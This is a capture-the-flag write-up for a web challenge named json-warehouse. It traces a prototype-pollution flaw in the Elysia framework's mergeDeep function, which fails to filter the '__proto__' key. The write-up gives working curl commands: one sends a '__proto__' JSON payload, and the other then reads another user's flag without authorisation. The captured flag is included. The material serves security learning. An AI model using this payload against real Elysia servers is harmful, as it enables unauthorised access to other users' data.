




# json-warehouse

**Author**: carax49<br>
**Date**: 2026-08-18

## Overview

- Category: Web
- Description:

    

## Analysis

It seems that the author's claim was correct: this code was carefully written by Claude Code and has no mistakes.

However, when I looked at `handout/package.json`:

```json
{
	"name": "json-warehouse",
	"module": "index.ts",
	"type": "module",
	"private": true,
	"scripts": {
		"dev": "NODE_ENV=development bun --watch src/index.tsx",
		"build": "NODE_ENV=production bun build src/index.tsx --target bun --outdir ./dist",
		"start": "NODE_ENV=production bun dist/index.js",
		"compile": "NODE_ENV=production bun build --compile --minify --bytecode src/index.tsx --outfile json-warehouse"
	},
	"devDependencies": {
		"@types/bun": "latest"
	},
	"peerDependencies": {
		"typescript": "^5"
	},
	"dependencies": {
		"@elysiajs/html": "^1.4.2",
		"@kitajs/html": "^4.2.13",
		"elysia": "^1.4.16",
		"zod": "^4.1.13"
	}
}
```

After some research, I found that `elysia 1.4.16` has a security vulnerability: [CVE-2025-66456](https://nvd.nist.gov/vuln/detail/CVE-2025-66456?utm_source).

In short:

```text
CVE-2025-66456 (Elysia.js, v1.4.0–1.4.16): a prototype-pollution vulnerability in the `mergeDeep` function when it combines validation results from two schemas—it does not filter the `__proto__` key.
```

In `handout/data.ts`, the server creates an `admin` user (uid = 1000) and sets a `flag` item every time it starts:

```typescript
setItem(
    createUser("admin", ...),
    "flag",
    process.env.FLAG || "gaslightCTF{flag}",
);
```

→ Goal: read the admin's `flag` item (1000) while being a normal user (1001).

## Solution

After creating a new account, I created an item named `a` with the value `{}`.



Next, I used `curl` to send this payload:

```bash
curl -k -i -X PUT 'https://<...>.play.gaslightctf.cooking:1337/storage/a' -H 'Content-Type: application/json' -H 'Cookie: user=1001.<COOKIE>' --data-raw '{"value":"0","__proto__":{"value":"1000"}}'
```

This payload uses the `edit item` function (`PUT` method) and unsafely merges the `__proto__` key. This makes normal objects inherit `value = "1000"` through `Object.prototype`.



I received a response with status code `200`.

I then tried to read the admin's `flag` item directly without a valid cookie.

```bash
curl -k -i 'https://<...>.play.gaslightctf.cooking:1337/storage/flag/view'
```



## Flag

```text
gaslightCTF{p0llut3d_w4r3h0us3s_ar3nt_v3ry_s4f3_c0nd1ti0ns_64982f8cf4be}
```
